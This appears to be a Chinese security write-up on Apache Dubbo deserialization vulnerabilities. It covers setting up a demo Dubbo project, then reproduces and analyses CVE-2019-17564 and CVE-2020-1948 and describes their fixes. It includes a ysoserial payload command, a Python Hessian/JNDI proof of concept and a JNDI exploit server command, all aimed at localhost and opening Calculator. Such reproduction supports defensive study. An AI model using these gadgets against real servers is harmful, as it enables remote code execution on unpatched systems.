


## Dubbo反序列化漏洞

**Author：Cinderella**

### Apache Dubbo

Apache Dubbo 是一款高性能、轻量级的开源Java RPC框架，它提供了三大核心能力：面向接口的远程方法调用，智能容错和负载均衡，以及服务自动注册和发现。致力于提供高性能透明化的RPC远程服务调用方案，以及SOA服务治理方案。Apache Dubbo在实际应用场景中主要负责解决分布式的相关需求。


### Dubbo使用

我们这里简单的创建一个Dubbo项目，本地实现一个RPC

首先创建一个空的Dubbo项目，然后添加三个子项目 `api` ` consumer` ` provider` ，系统会自动给父pom.xml添加对应的依赖



之后在父工程中添加对应的依赖

```xml
    <dependencies>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>4.3.7.RELEASE</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-beans</artifactId>
            <version>4.3.7.RELEASE</version>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-context</artifactId>
            <version>4.3.7.RELEASE</version>
        </dependency>

        <dependency>
            <groupId>org.apache.dubbo</groupId>
            <artifactId>dubbo</artifactId>
            <version>2.7.3</version>
            <exclusions>
                <exclusion>
                    <groupId>org.springframework</groupId>
                    <artifactId>spring</artifactId>
                </exclusion>
            </exclusions>
        </dependency>

        <dependency>
            <groupId>org.apache.curator</groupId>
            <artifactId>curator-framework</artifactId>
            <version>4.0.1</version>
        </dependency>

        <dependency>
            <groupId>org.apache.curator</groupId>
            <artifactId>curator-recipes</artifactId>
            <version>2.8.0</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-simple</artifactId>
            <version>1.7.25</version>
        </dependency>
    </dependencies>
```

之后在api中添加对应的接口

```java
public interface DemoService {
    String sayHello(String name);
}
```

在provider中实现接口

```java
public class DemoServiceImpl implements DemoService{
    @Override
    public String sayHello(String name) {
        return "Hello " + name;
    }
}
```

在provider子工程中会自动添加如下，完成映射

```java
        <dependency>
            <groupId>org.example</groupId>
            <artifactId>api</artifactId>
            <version>1.0-SNAPSHOT</version>
            <scope>compile</scope>
        </dependency>
```

然后在resources目录创建provider.xml，其中注释了multicast registry center，使用zookeeper作为Registry，协议`dubbo:protocol`是用的dubbo协议，下文CVE-2019-17564中的漏洞条件是需要使用http协议的

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:dubbo="http://code.alibabatech.com/schema/dubbo"
       xmlns="http://www.springframework.org/schema/beans"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.3.xsd
       http://code.alibabatech.com/schema/dubbo  http://code.alibabatech.com/schema/dubbo/dubbo.xsd">

    <!-- provider's application name, used for tracing dependency relationship -->
    <dubbo:application name="demo-provider"/>

    <!-- use multicast registry center to export service -->
    <!--<dubbo:registry address="multicast://224.5.6.7:1234"/>-->

    <!-- 使用zookeeper注册中心暴露服务地址 -->
    <dubbo:registry address="zookeeper://127.0.0.1:2181" />

    <!-- use dubbo protocol to export service on port 20880 -->
    <dubbo:protocol name="dubbo" port="20880"/>

    <!-- service implementation, as same as regular local bean -->
    <bean id="demoService" class="DemoServiceImpl"/>

    <!-- declare the service interface to be exported -->
    <dubbo:service interface="DemoService" ref="demoService"/>
</beans>
```

这里要注意需要添加对应的DTD，否则系统会报错


之后实现provider类

```java
public class Provider {
    public static void main(String[] args) throws IOException {
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext(new String[]{"classpath:provider.xml"});
        context.start();
        System.out.println("Provider started.");
        System.in.read(); 
    }
}
```

然后在consumer工程中创建Consumer类

```java
public class Consumer {
    public static void main(String[] args) throws Exception {
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext(new String[] {"classpath:consumer.xml"});
        context.start();
        DemoService demoService = (DemoService)context.getBean("demoService");
        String hello = demoService.sayHello("world");
        System.out.println(hello);
    }
}
```

在resource中创建consumer.xml文件

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:dubbo="http://code.alibabatech.com/schema/dubbo"
       xmlns="http://www.springframework.org/schema/beans"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.3.xsd
       http://code.alibabatech.com/schema/dubbo http://code.alibabatech.com/schema/dubbo/dubbo.xsd">

    <!-- consumer's application name, used for tracing dependency relationship (not a matching criterion),
    don't set it same as provider -->
    <dubbo:application name="demo-consumer"/>

    <!-- use multicast registry center to discover service -->
    <!-- <dubbo:registry address="multicast://224.5.6.7:1234"/> -->

    <!-- 使用zookeeper注册中心暴露服务地址 -->
    <dubbo:registry address="zookeeper://127.0.0.1:2181" />

    <!-- generate proxy for the remote service, then demoService can be used in the same way as the
    local regular interface -->
    <dubbo:reference id="demoService" check="false" interface="DemoService"/>
</beans>
```

代码层面基本就这些，接下来我们下载运行Zookeeper，Zookeeper可作为Dubbo的Registry，Dubbo服务的provider和consumer都需要在Zookeeper进行注册。下载Zookeeper并解压，将conf目录下的zoo_sample.cfg改名为 zoo.cfg，bin目录下以**root权限**运行zkServer启动Zookeeper，zoo_sample.cfg默认服务端口2181


依次运行provider和consumer，输出Hello world即完成了一次RPC


### CVE-2019-17564(Apache Dubbo反序列化漏洞)

#### 前言

Apache Dubbo支持多种协议，官方推荐使用 Dubbo 协议，CVE-2019-17564是属于Apache Dubbo HTTP协议中的一个反序列化漏洞，该漏洞的主要原因在于当Apache Dubbo启用HTTP协议之后，Apache Dubbo在接受来自消费者的远程调用请求的时候存在一个不安全的反序列化行为，最终导致了远程任意代码执行。

#### 影响版本

1. 2.7.0 <= Apache Dubbo <= 2.7.4.1
2. 2.6.0 <= Apache Dubbo <= 2.6.7
3. Apache Dubbo = 2.5.x

#### 漏洞环境搭建

使用[apache/dubbo-samples: samples for Apache Dubbo (github.com)](https://github.com/apache/dubbo-samples)项目里面的**dubbo.samples.http**

这里注意修改pom.xml如下


之后增加存在Gadget的类

```xml
        <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-collections4 -->
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
```

可能会存在端口占用问题，可以改下对应对口`http-provider.xml`

```
<dubbo:protocol name="http" id="http" port="${servlet.port:8888}" server="${servlet.container:tomcat}"/>
```

然后启动Zookeeper，启动服务，这样就代表完成了一次RPC


之后漏洞利用，需要向/org.apache.dubbo.samples.http.api.DemoService路径POST传入我们添加的Gadget即可

使用ysoserial生成利用代码

```bash
java -jar ysoserial.jar CommonsCollections2 "open -a Calculator" > /tmp/payload.ser
```

发送PayLoad执行命令


报错信息如下：

```
SEVERE: Servlet.service() for servlet [dispatcher] in context with path [/] threw exception [org.apache.commons.collections4.FunctorException: InvokerTransformer: The method 'newTransformer' on 'class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl' threw an exception] with root cause
java.lang.NullPointerException
	at java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet.postInitialization(AbstractTranslet.java:372)
	at java.xml/com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:557)
	at java.xml/com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:584)
	at java.base/jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at java.base/jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at java.base/jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.base/java.lang.reflect.Method.invoke(Method.java:566)
	at org.apache.commons.collections4.functors.InvokerTransformer.transform(InvokerTransformer.java:129)
	at org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
	at java.base/java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:727)
	at java.base/java.util.PriorityQueue.heapify(PriorityQueue.java:749)
	at java.base/java.util.PriorityQueue.readObject(PriorityQueue.java:814)
	at java.base/jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at java.base/jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at java.base/jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.base/java.lang.reflect.Method.invoke(Method.java:566)
	at java.base/java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1175)
	at java.base/java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2325)
	at java.base/java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2196)
	at java.base/java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1679)
	at java.base/java.io.ObjectInputStream.readObject(ObjectInputStream.java:493)
	at java.base/java.io.ObjectInputStream.readObject(ObjectInputStream.java:451)
	at org.springframework.remoting.rmi.RemoteInvocationSerializingExporter.doReadRemoteInvocation(RemoteInvocationSerializingExporter.java:144)
	at org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter.readRemoteInvocation(HttpInvokerServiceExporter.java:121)
	at org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter.readRemoteInvocation(HttpInvokerServiceExporter.java:100)
	at org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter.handleRequest(HttpInvokerServiceExporter.java:79)
	at org.apache.dubbo.rpc.protocol.http.HttpProtocol$InternalHandler.handle(HttpProtocol.java:216)
	at org.apache.dubbo.remoting.http.servlet.DispatcherServlet.service(DispatcherServlet.java:61)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:790)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:231)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
	at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)
	at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
	at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:496)
	at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)
	at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)
	at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)
	at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:803)
	at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:790)
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1468)
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
	at java.base/java.lang.Thread.run(Thread.java:834)
```


#### 漏洞分析

根据报错信息，在javax.servlet.http.HttpServlet#service(javax.servlet.ServletRequest, javax.servlet.ServletResponse)


继续跟进org.apache.dubbo.remoting.http.servlet.DispatcherServlet#service


继续跟进，这里判断是否是POST请求，org.apache.dubbo.rpc.protocol.http.HttpProtocol.InternalHandler#handle


继续跟进到org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter#handleRequest


继续跟进org.springframework.remoting.rmi.RemoteInvocationSerializingExporter#doReadRemoteInvocation,在这里调用`readObject()`，不存在任何过滤，直接执行命令。


根据调用其实也看得出来，最后调用的其实是spring 的 HttpInvoker。Spring HttpInvoker是一个新的远程调用模型，作为Spring框架的一部分，执行基于HTTP的远程调用（意味着可以通过防火墙），并使用Java的序列化机制在网络间传递对象。

其实官方文档也提示了对应[风险](https://docs.spring.io/spring/docs/5.0.4.RELEASE/spring-framework-reference/integration.html#remoting-httpinvoker)


#### 漏洞修复

在2.77版本中，官方对漏洞进行了修复

org.apache.dubbo.rpc.protocol.http.HttpProtocol.InternalHandler#handle


跟进到`skeleton.handle`中，com.googlecode.jsonrpc4j.JsonRpcBasicServer#handle，这里会对传入数据类型进行判断，如果不是JSON格式就直接报错


### CVE-2020-1948

#### 影响版本

1. Apache Dubbo 2.7.0 ~ 2.7.6
2. Apache Dubbo 2.6.0 ~ 2.6.7
3. Apache Dubbo 2.5.x 所有版本 (官方不再提供支持)

#### 环境搭建

根据公布出来的POC

```python
from hessian2 import new_object
from client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource="ldap://127.0.0.1:8087/ExploitMac",
      strMatchColumns=["fxx"]
      )
JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

resp = client.send_request_and_return_response(
    service_name='com.example.provider.service.UesrService',
    method_name='test',
    args=[toStringBean])
print(resp)
```

分析发现不仅仅是用了`JdbcRowSetImpl`调用JNDI进行远程代码执行，还调用了`com.rometools.rome.feed.impl.ToStringBean`，所以还需要在provider中添加rometools的引用

```xml
        <dependency>
            <groupId>com.rometools</groupId>
            <artifactId>rome</artifactId>
            <version>1.7.0</version>
        </dependency>
```

使用[welk1n/JNDI-Injection-Exploit: JNDI注入测试工具（A tool which generates JNDI links can start several servers to exploit JNDI Injection vulnerability,like Jackson,Fastjson,etc） (github.com)](https://github.com/welk1n/JNDI-Injection-Exploit)工具

```
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /System/Applications/Calculator.app" -A 127.0.0.1
```


将上面的JdbcRowSetImpl的dataSource替换为创建的路径即可

#### 漏洞分析

首先定位到org.apache.dubbo.rpc.protocol.dubbo.DecodeableRpcInvocation#decode(org.apache.dubbo.remoting.Channel, java.io.InputStream)


在画红框处对args进行必要的反序列化，而dubbo默认使用hession2进行序列化操作

反序列完之后，对内容进行必要解析，之后跟进org.apache.dubbo.rpc.protocol.dubbo.DubboProtocol#getInvoker


这里的inv会进行toString()操作，跟进其父类org.apache.dubbo.rpc.RpcInvocation#toString，可以看到arguments就是ToStringBean实例


继续跟进java.util.Arrays#toString(java.lang.Object[])


直到java.lang.String#valueOf(java.lang.Object)


最终进入com.rometools.rome.feed.impl.ToStringBean#toString(java.lang.String)


利用 `com.rometools.rome.feed.impl.ToStringBean#toString` 方法，重写了 `toString`，该方法将会调用构造对象的所有 `getter` 方法。

执行 `Dubbo` 调用时，传入的是 `ToStringBean` 类型参数，构造的对象是`com.sun.rowset.JdbcRowSetImpl`，并且 `datasource` 属性设置的是 `JNDI` 暴露的 `url`，在调用 `JdbcRowSetImpl` 的 `getDatabaseMetaData` 方法时，执行 `connect` 操作，下载远端代码，在 `Service Provider` 执行，造成攻击。

com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData


#### 漏洞修复

对DecodeableRpcInvocation增加入参类型校验




### 参考

[Apache Dubbo 反序列化漏洞复现笔记](https://l3yx.github.io/2020/08/25/Apache-Dubbo-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E7%AC%94%E8%AE%B0/#Apache-Dubbo)

[Dubbo 漏洞 CVE-2020-1948 复现+简单修复](https://www.sevenyuan.cn/2020/07/21/java/2020-07-21-dubbo-cve-2020-1948/)